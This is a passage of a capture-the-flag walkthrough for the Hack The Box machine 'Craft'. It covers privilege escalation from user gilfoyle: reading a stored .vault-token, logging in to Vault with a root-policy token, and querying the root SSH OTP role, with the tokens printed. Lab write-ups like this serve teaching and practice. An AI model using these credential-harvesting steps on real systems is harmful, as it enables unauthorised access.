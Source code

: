 ```console

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jan  3 23:45:10 2020 from 10.10.14.16
gilfoyle@craft:~$ id
uid=1001(gilfoyle) gid=1001(gilfoyle) groups=1001(gilfoyle)
gilfoyle@craft:~$ wc -c user.txt 
33 user.txt
```

## root

We start enumerating to see if we can find anything interesting in the home of gilfoyle, and we found a `.vault-token` file (vault is a tool for securely access/store secrets as tokens, passowrds, certificates, etc, to learn more about it go to [Vault project page](https://www.vaultproject.io/)), and try to login to vault with it which goes well.

```console
gilfoyle@craft:~$ cat .vault-token 
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9gilfoyle@craft:~$ vault login
Token (will be hidden): 
Success! You are now authenticated. The token information displayed below
is already stored in the token helper. You do NOT need to run "vault login"
again. Future Vault requests will automatically use this token.

Key                  Value
---                  -----
token                f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
token_accessor       1dd7b9a1-f0f1-f230-dc76-46970deb5103
token_duration       ∞
token_renewable      false
token_policies       ["root"]
identity_policies    []
policies             ["root"]
gilfoyle@craft:~$ 
```

We go back to the repo of `craft-infra` inside the `vault` folder to see if we can find the secret stored, in it is a small script `secrets.sh` which has exactly what we need:
{{< image src="/images/htb/craft/4-gil.png" position="center" style="border-radius: 8px;" >}}
with this information we run vault to get the kv if the secret is indeed there:

```console
gilfoyle@craft:~$ vault kv get ssh/roles/root_otp
========== Data ==========
Key                  Value
---                  -----
allowed_users        n/a
cidr_list            0.0.0.0/0
default_user         root
exclude_cidr_list    n/a
key_type             otp
port                 22
```
